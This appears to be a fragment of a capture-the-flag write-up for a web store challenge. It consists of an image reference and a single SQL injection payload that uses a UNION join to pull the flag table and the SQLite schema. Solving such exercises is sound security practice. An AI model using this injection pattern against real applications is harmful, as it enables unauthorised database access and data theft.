 <img src="./img/angstrom/store4.png">

```
' or 1=1 union select * from (select null) as a join (select flag from flags91b3e66b04879149597e8a26b489192a) as b join (select sql from sqlite_master) as c; -- 
```